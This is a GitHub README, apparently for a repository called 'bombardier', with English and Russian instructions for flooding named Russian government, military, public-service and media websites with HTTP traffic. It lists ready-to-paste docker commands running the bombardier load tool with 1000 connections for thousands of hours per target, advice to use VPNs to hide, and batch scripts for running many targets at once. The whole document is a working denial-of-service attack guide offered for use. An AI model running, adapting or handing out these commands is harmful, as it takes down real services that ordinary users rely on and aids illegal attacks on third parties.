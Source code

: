 # bombardier
Fight agains propoganda

# If you have kubertnetes cluster `./run_all_kuber.sh`
Docs in `docs/digital_ocean_kubernetes.md`
easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

# Инструкция для пользователей Windows и Mac:
1. Установить Docker: https://www.docker.com/products/docker-desktop
2. Запустить докер и убедиться, что Docker Started
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md
4. Для лучшего результата используйте ВПН and (
<br>Psiphon
<br>Secure VPN
<br>Proton VPN
<br>SurfShark
or
<br>Clear VPN
<br>Proton VPN
<br>Nord VPN)

5. Найти в программах Windows Command Prompt и запустить от имени Администратора
6. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт)
7. Запустить все цели из resources.txt для виндовс из Консли run_windows.bat для Linux/Mac ./run_all_docker.sh для целей из resources.txt (или ./run_all_docker.sh файл-с-целями)
8. Для выполнения с конкретными целями - Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер
9. Убедиться, что процесс пошёл
10. Ждать падения рашки


# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/almerico/bombardier/blob/main/README.md
4. For best result use VPN(
<br>Psiphon
<br>Secure VPN
<br>Proton VPN
<br>SurfShark
or
<br>Clear VPN
<br>Proton VPN
<br>Nord VPN)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till russia fall
